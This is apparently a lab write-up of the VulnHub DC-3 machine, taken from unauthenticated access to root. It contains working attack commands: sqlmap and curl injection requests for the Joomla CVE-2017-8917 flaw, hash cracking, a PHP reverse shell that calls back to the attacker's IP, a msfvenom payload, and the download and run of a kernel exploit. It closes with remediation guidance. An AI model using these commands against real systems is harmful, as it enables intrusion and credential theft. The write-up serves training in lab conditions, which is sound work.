




# DC: 3 — Writeup

> DC-3 is the only machine in the series with a single flag and no hints. It's a clean, focused lab: one CMS, one SQLi CVE, one cracked hash, one PHP webshell, one kernel exploit. The chain from unauthenticated web to root is tight and each step is a real-world technique you will encounter in actual engagements. Different kind of challenge, dude. Let's get it.

---

## Target Information

| Field | Details |
|-------|---------|
| **Level** | Beginner / Intermediate |
| **Target VM** | DC: 3 (VirtualBox/VMware, host-only) |
| **Attacker VM** | Kali Linux 2024.x |
| **Target IP** | 192.168.1.104 (host-only adapter) |
| **VulnHub URL** | https://www.vulnhub.com/entry/dc-32,312/ |
| **Techniques** | Joomla fingerprinting, SQL injection (sqlmap), hash cracking (John), PHP reverse shell via CMS template, local kernel privilege escalation |
| **CVEs** | CVE-2017-8917 (Joomla 3.7.0 SQLi); CVE-2016-4557 (Linux kernel eBPF doubleput LPE) |
| **CISA KEV** | CVE-2017-8917 is not in CISA KEV; CVE-2016-4557 is not in CISA KEV. Both are documented in NVD with critical/high ratings. |
| **APT Groups** | Joomla CMS SQLi exploits have been leveraged by multiple threat actors in mass exploitation campaigns; kernel LPE techniques (CVE-2016-4557) align with post-exploitation tradecraft documented in various APT reports |

---

## Attack Summary

```
[Attacker]
    |
    +--[ nmap ]--> 192.168.1.104:80 (Joomla 3.7)
    |
    +--[ CVE-2017-8917 SQLi via sqlmap ]--> joomladb credentials
    |
    +--[ john --wordlist=rockyou.txt ]--> admin:snoopy
    |
    +--[ Joomla admin login ]--> template editor access
    |
    +--[ PHP reverse shell in Beez3/index.php ]--> nc callback (www-data)
    |
    +--[ CVE-2016-4557 doubleput exploit ]--> root shell
    |
    +--[ cat /root/the-flag.txt ]--> FLAG CAPTURED
```

---

## Methodology

1. Network discovery; single HTTP service on port 80
2. Identify Joomla 3.7.0 and confirm CVE-2017-8917 applicability
3. Extract admin credentials from database using sqlmap
4. Crack bcrypt hash with John the Ripper
5. Log in to Joomla admin; inject PHP reverse shell via template editor
6. Escalate to root via Ubuntu 16.04 kernel LPE (CVE-2016-4557)

---

## Step 1: Network Discovery

**Context:** Only HTTP is running. There is no SSH, no extra ports. Everything goes through port 80. Scan services and versions, then go straight to the web app. One surface, one attack path. Fr fr, it's focused.

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.104
```

**Expected output:**

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache 2.4.18 (Ubuntu)
```

Browse to `http://192.168.1.104` to confirm Joomla CMS.

**Alternative:** Use `whatweb` for quick CMS identification:

```bash
whatweb http://192.168.1.104
```

**Real-world note:** Single-service attack surface does not mean low risk. Web applications hosting outdated CMS software represent one of the most common initial access vectors in real-world breach data.

**MITRE TTP:** T1046 - Network Service Discovery; T1595.002 - Active Scanning: Vulnerability Scanning



---

## Step 2: Identify Joomla 3.7.0 and Exploit SQLi (CVE-2017-8917)

**Context:** Joomla 3.7.0 has an SQL injection in the `com_fields` component. The `list[fullordering]` parameter is unsanitized and injectable without authentication. CVE-2017-8917 is EDB-42033. This is a GET-based blind SQL injection, but sqlmap handles it automatically. Legit critical, no auth needed, bruh.

First, fingerprint the Joomla version:

```bash
joomscan --url http://192.168.1.104
```

The vulnerable URL for CVE-2017-8917:

```
http://192.168.1.104/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml
```

**Step 2a: Enumerate databases:**

```bash
sqlmap -u "http://192.168.1.104/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent --dbs -p "list[fullordering]"
```

**Expected output:**

```
available databases [2]:
[*] information_schema
[*] joomladb
```

**Step 2b: Enumerate tables:**

```bash
sqlmap -u "http://192.168.1.104/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent -D joomladb --tables --batch
```

**Step 2c: Dump admin credentials:**

```bash
sqlmap -u "http://192.168.1.104/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" \
  --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C name,username,password --dump --batch
```

**Expected output:**

```
| admin | admin | $2y$10$<bcrypt_hash> |
```

**Alternative:** Use the manual PoC request with curl to verify injection before running sqlmap:

```bash
curl -s "http://192.168.1.104/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(1,concat(0x7e,version()),1)--" | grep -i "error\|warning"
```

**Real-world note:** CVE-2017-8917 was actively exploited shortly after disclosure in 2017. Unauthenticated SQL injection in a CMS component is a worst-case scenario: it exposes the entire database, including admin credentials and potentially sensitive customer data, without requiring any prior access.

**MITRE TTP:** T1190 - Exploit Public-Facing Application; T1005 - Data from Local System



---

## Step 3: Crack the Hash with John the Ripper

**Context:** The admin hash is bcrypt (`$2y$10$...`). bcrypt is computationally expensive, but "snoopy" is a weak password that falls to rockyou.txt within seconds on GPU or minutes on CPU. Always try the big lists first. Noice.

```bash
echo '$2y$10$<hash_from_dump>' > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Expected output:**

```
snoopy           (admin)
```

**Alternative:** Use hashcat with GPU for speed:

```bash
hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt -d 1 -w 3
```

**Real-world note:** bcrypt is the right choice for password hashing, but no hash algorithm saves you from a weak password. In real breach analyses, cracked admin passwords from CMS databases are commonly reused across email, corporate SSO, and cloud portals. One cracked hash can cascade into full organizational compromise.

**MITRE TTP:** T1110.002 - Brute Force: Password Cracking

---

## Step 4: PHP Reverse Shell via Joomla Template Editor

**Context:** Log in to Joomla admin with `admin:snoopy`. The template editor is a server-side PHP file editor with write access. It's essentially an authenticated RCE interface. Navigate to the Beez3 template, replace `index.php` with a reverse shell, and trigger it by browsing to the site. Legit admin panel = legit shell, dude.

Log in at: `http://192.168.1.104/administrator`

Navigate to:
```
Extensions > Templates > Templates > Beez3 > index.php
```

Replace content with PHP reverse shell (set your IP and port):

```php
<?php
set_time_limit(0);
$VERSION = "1.0";
$ip = '<your-attacker-IP>';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
// ... full shell from /usr/share/webshells/php/php-reverse-shell.php
?>
```

Start listener:

```bash
nc -lvnp 4444
```

Trigger by browsing to `http://192.168.1.104/`.

Stabilize the shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
uname -a
# Linux dc-3 4.4.0-116-generic ... Ubuntu 16.04.4 LTS
```

**Alternative:** Use `msfvenom` to generate a PHP meterpreter payload and upload it directly:

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker> LPORT=4444 -f raw > shell.php
```

**Real-world note:** CMS template editors are one of the most commonly abused post-authentication RCE vectors. In real incidents, attackers use them to plant persistent webshells after obtaining admin credentials. File integrity monitoring (FIM) on web directories is a critical detection control.

**MITRE TTP:** T1505.003 - Server Software Component: Web Shell; T1059.004 - Command and Scripting Interpreter: Unix Shell



---

## Step 5: Kernel Privilege Escalation (CVE-2016-4557)

**Context:** `uname -a` confirms Ubuntu 16.04.4 LTS with kernel 4.4.0-116-generic. This kernel version is vulnerable to CVE-2016-4557, a local privilege escalation via a use-after-free in the eBPF (Extended Berkeley Packet Filter) subsystem, known as "doubleput" (EDB-39772). Download, compile, execute. Root in seconds. GG.

Check the kernel version:

```bash
uname -a
# 4.4.0-116-generic
lsb_release -a
# Ubuntu 16.04.4 LTS
```

Download and compile the exploit:

```bash
cd /tmp
wget https://www.exploit-db.com/exploits/39772 -O 39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ebpf_mapfd_doubleput_exploit
./compile.sh
./doubleput
```

**Expected output:**

```
starting writev
hit
done
# whoami
root
```

```bash
cd /root
cat the-flag.txt
```

**Alternative:** Check for other available LPEs for the kernel version using searchsploit:

```bash
searchsploit "Ubuntu 16.04"
searchsploit "Linux Kernel 4.4"
```

**Real-world note:** Kernel exploitation is a high-severity post-exploitation technique. In real incident response cases, kernel LPEs are used to escape containers, break out of restricted environments, and achieve full system compromise from a low-privileged web shell. Keeping the host kernel patched is not optional, even for non-public-facing systems.

**MITRE TTP:** T1068 - Exploitation for Privilege Escalation




---

## Captured Flags and Credentials

| Item | Value / Location |
|------|-----------------|
| Joomla admin credentials | admin:snoopy |
| bcrypt hash | Extracted from `joomladb.#__users` via SQLi |
| Web shell user | `www-data` |
| Kernel version (vulnerable) | 4.4.0-116-generic (Ubuntu 16.04.4 LTS) |
| Root flag | `/root/the-flag.txt` |

---

## Lessons Learned with Real-World Relevance

1. **Unauthenticated SQLi in CMS is catastrophic.** CVE-2017-8917 requires zero credentials and extracts the entire database. In a real environment, this means admin credentials, user PII, and potentially application secrets are all exposed from a single GET request.

2. **bcrypt does not protect weak passwords.** The hash algorithm is irrelevant if the underlying password is in rockyou.txt. Password complexity requirements and breach-exposure checks (HaveIBeenPwned integration) are necessary controls.

3. **The CMS template editor is an authenticated RCE surface.** Treat it as a direct path to server-side code execution. Access should be restricted to a minimal set of trusted admins, and FIM should alert on any changes to template files.

4. **Kernel patching is critical even post-perimeter.** CVE-2016-4557 demonstrates that a compromised low-privileged web process becomes full root if the OS kernel is unpatched. Defense in depth requires patching at every layer.

5. **Cross-reference kernel version with searchsploit immediately.** `uname -a` is the first command after getting a shell. Unpatched Ubuntu 16.04 LTS systems had a long tail of exploitable kernel CVEs; patch aggressively and enforce kernel update SLAs.

---

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Notes |
|--------|-----------|-----|-------|
| Reconnaissance | Active Scanning: Vulnerability Scanning | T1595.002 | nmap, joomscan, whatweb |
| Initial Access | Exploit Public-Facing Application | T1190 | CVE-2017-8917 Joomla SQLi |
| Credential Access | Brute Force: Password Cracking | T1110.002 | john + rockyou.txt against bcrypt |
| Execution | Server Software Component: Web Shell | T1505.003 | PHP shell in Joomla template editor |
| Execution | Command and Scripting Interpreter: Unix Shell | T1059.004 | nc reverse shell + python pty |
| Discovery | File and Directory Discovery | T1083 | uname, lsb_release post-shell |
| Privilege Escalation | Exploitation for Privilege Escalation | T1068 | CVE-2016-4557 doubleput kernel LPE |
| Collection | Data from Local System | T1005 | Reading root flag |

---

## Remediation

### Vulnerability: CVE-2017-8917 (Joomla 3.7.0 SQLi)

**NIST CSF 2.0 Functions:** Identify (ID.RA-1), Protect (PR.PS-2), Respond (RS.AN-5)

**NIST SP 800-53 Controls:**
- SI-2: Flaw Remediation (upgrade to Joomla 3.7.1+; apply vendor security patch)
- SI-10: Information Input Validation (parameterize all database queries; validate `fullordering` parameter)
- RA-5: Vulnerability Monitoring and Scanning (deploy web application vulnerability scanner)

**C2M2:** MIL1 - Establish patch management for web applications; MIL2 - Deploy WAF rules for SQLi patterns.

**D3FEND:** D3-DBQT (Database Query Translation) to parameterize queries; D3-NTF (Network Traffic Filtering) to detect SQLi patterns via WAF.

---

### Vulnerability: Joomla Template Editor RCE + Weak Admin Password

**NIST SP 800-53 Controls:**
- AC-3: Access Enforcement (restrict template editor to minimal admin set; use role-based access)
- IA-5: Authenticator Management (enforce strong passwords + MFA for admin panel)
- AU-12: Audit Record Generation (log all admin panel actions; alert on template file changes)
- SI-7: Software, Firmware, and Information Integrity (deploy FIM on web directories)

**D3FEND:** D3-FH (File Hashing) for integrity monitoring; D3-NTF to detect reverse shell traffic outbound.

---

### Vulnerability: CVE-2016-4557 (Kernel LPE, Ubuntu 16.04)

**NIST SP 800-53 Controls:**
- SI-2: Flaw Remediation (apply Ubuntu security updates; enforce kernel update SLA)
- CM-7: Least Functionality (disable or restrict eBPF access for unprivileged users: `sysctl kernel.unprivileged_bpf_disabled=1`)
- SC-39: Process Isolation (enforce security boundaries between web processes and OS kernel)

**Mitigation (without kernel patch):**

```bash
sysctl kernel.unprivileged_bpf_disabled=1
echo "kernel.unprivileged_bpf_disabled = 1" >> /etc/sysctl.conf
```

**D3FEND:** D3-HBPI (Hardware-Based Process Isolation); D3-ACH (Application Configuration Hardening) to disable unprivileged eBPF.

---

## Final Thoughts

DC-3 stands out in the series because it is the only machine where you are purely on your own: no hints, one flag, full chain required. The attack path is clean and realistic: unauthenticated SQLi extracts credentials, cracked hash grants CMS admin access, template editor gives RCE, and an unpatched kernel takes you to root. Every step in this chain has a direct real-world counterpart in documented breach cases. This is not CTF for its own sake; it is a compressed simulation of how web application compromises actually unfold.

Thanks guys!! (❍ᴥ❍ʋ)
